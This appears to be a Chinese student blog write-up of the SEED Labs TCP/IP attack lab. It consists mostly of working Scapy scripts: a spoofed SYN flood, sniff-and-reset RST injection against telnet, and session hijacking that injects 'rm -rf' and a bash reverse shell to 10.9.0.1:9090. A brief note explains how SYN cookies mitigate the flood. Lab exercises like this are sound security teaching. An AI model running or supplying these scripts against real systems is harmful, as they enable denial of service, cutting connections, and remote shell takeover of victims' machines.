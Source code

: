 ```yaml
---
title: SeedLab ex3 TCP/IP Attack Lab
date: 2023-12-22
categories:
 - 网络安全
cover: /images/covers/grid.png
---
```

雨宫哲你是伟大的
<!-- more -->
## Task1: SYNFlooding Attack

###  Task 1.1: Launching the Attack Using Python

pyhton syn flood 代码

```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
ip = IP(dst="10.9.0.5") # victim ip
tcp = TCP(dport=23, flags="S")# telnet port
pkt = ip/tcp
while True:
	pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
	pkt[TCP].sport = getrandbits(16) # source port
	pkt[TCP].seq = getrandbits(32) # sequence number
	send(pkt, verbose = 0)
```

先运行1分钟，在telnet victim，大概会出错，再排查问题

使用python代码进行实验，执行这段代码至少超过一分钟，发现并不能有效的实现泛洪攻击，telnet仍然能够成功连接。有可能是因为Python程序可能不够快，在竞争TCP半开放连接队列，可能输给合法的telnet数据包。还可能由于TCP的缓存机制，如果禁用了SYN Cookies，TCP将为“已验证目标”在排队队列中保留四分之一的空间，如果先记住了用户的ip，会不受泛洪影响。

1. TCP cache 清空
2. 多开synflood.py



### Task 1.2: Launch the Attack Using C

1. 编译
2. 清空缓存
3. 执行

###  Task 1.3: Enable the SYN Cookie Countermeasure

Please enable the SYN cookie mechanism, and run your attacks again, and compare the results

启用SYN Cookie机制后，服务器会在接收到TCP连接请求时，不立即分配资源和建立连接，而是生成一个特殊的cookie值发送给客户端。只有在客户端回应时，服务器才验证这个cookie值，如果验证通过，才正式建立连接。这样做的好处是，服务器无需在收到SYN包时立即分配资源，而是将部分连接状态保存在cookie中，从而能够有效抵御SYN洪水攻击。

## Task2: TCP RST Attacks on telnet Connections

服务器向客户端发送rst tcp包，找到服务器发给客户端的报文最新得报文

user1 telnet victim

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.5", dst="10.9.0.6")
tcp = TCP(sport=23, dport=43378, flags="R", seq=2402526666)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)

```
auto

```python
#!/usr/bin/env python3
from scapy.all import *


def rst_attack(packet):
    if packet.haslayer(IP) and packet.haslayer(TCP):
        if packet[TCP].dport == 23:  # 检查是否是telnet
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")

            # 伪造 从服务器向客户端发送的rst
            ip = IP(src=packet[IP].dst, dst=packet[IP].src)
            tcp = TCP(
                sport=packet[TCP].dport, dport=packet[TCP].sport, flags="R", seq=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            rst_packet = ip / tcp
            send(rst_packet, verbose=0)
            print("TCP RST packet sent")


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=rst_attack, store=0)

```

## Task3: TCP Session Hijacking

manual，手动会话劫持，wireshark看最后的包信息，获取seq ack port，执行后光标会动不了，原因是seq和ack乱了好像

在使用user进行 telnet victim后，通过wireshark工具查看包信息，获取伪装成为 victim 向 user 发送下一个rst包的seq。
```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=56952, dport=23, flags="A", seq=1006118204, ack=1285162686)
data = "rm -rf new.txt\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)

```


auto，选作
```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False


def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data) # 判断是否登录
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            data = "rm -rf new.txt\r"

            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```

## Task4: Creating Reverse Shell using TCP Session Hijacking

执行指令nc -lnv 9090，在本地（-l）以监听模式启动 netcat 工具，监听在9090端口上，并输出详细信息。运行自动劫持的代码，在telnet连接后，会自动执行 “/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r”命令。创建一个反向shell 映射到10.9.0.1的9090端口输入从tcp连接获取，错误输出重定向到tcp连接。

```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False

def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data)
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否d登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            # data = "rm -rf new.txt\r"
            data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)

iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```
